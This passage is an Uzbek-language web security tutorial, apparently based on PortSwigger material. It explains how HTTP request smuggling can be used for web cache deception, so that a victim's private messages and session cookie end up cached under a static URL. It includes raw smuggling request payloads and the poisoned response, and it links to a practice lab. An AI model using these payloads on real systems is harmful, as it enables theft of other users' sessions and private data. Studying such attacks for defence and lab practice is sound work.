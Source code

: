 ```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 43
Transfer-Encoding: chunked

0

GET /private/messages HTTP/1.1
Foo: X
```

Keyingi request boshqa foydalanuvchidan sessiya cookielarni va boshqa headerlarni o'z ichiga olgan holda smuggled requestga qo'shilib backend-serverga yuboriladi. Masalan:

```http
GET /private/messages HTTP/1.1
Foo: XGET /static/some-image.png HTTP/1.1
Host: vulnerable-website.com
Cookie: sessionId=q1jn30m6mqa7nbwsa0bhmbr7ln2vmh7z
...
```

Backend server bu so'rovni oddiy so'rov kabi qabul qiladi va sizga javob qaytaradi. Ushbu URL da, foydalanuvchining shaxsiy xabarlari va session cookie lariga so'rov yuborilmoqda. Front-end serveri bu responseni ikkinchi requestdagi `/static/some-image.png` URL manziliga qarshi keshlaydi.

```http
GET /static/some-image.png HTTP/1.1
Host: vulnerable-website.com

HTTP/1.1 200 Ok
...
<h1>Your private messages</h1>
...
```

Haker shunda ushbu URLga kirishi va keshdan kerakli mahfiy ma'lumotlarni qo'lga kiritishi mumkin.

Muhim ogohlantirish, ushbu xujumda Haker qancha ma'lumot URL keshiga yuklanayotganini bilmaydi, sababi jabrlanuvchi foydalanuvchi URL ga tashrif buyurganda nima bo'lishini biz yuborgan so'rovdan oldindan taxmin qilish qiyin. Xakerga olingan kontentni topish uchun koʻp sonli statik URL manzillarini yozib olish kerak boʻlishi mumkin.

:::caution **Lab**
 [Web Cacheni aldashda HTTP Request Smugglingni exploit qilish ≫](https://portswigger.net/web-security/request-smuggling/exploiting/lab-perform-web-cache-deception)
:::

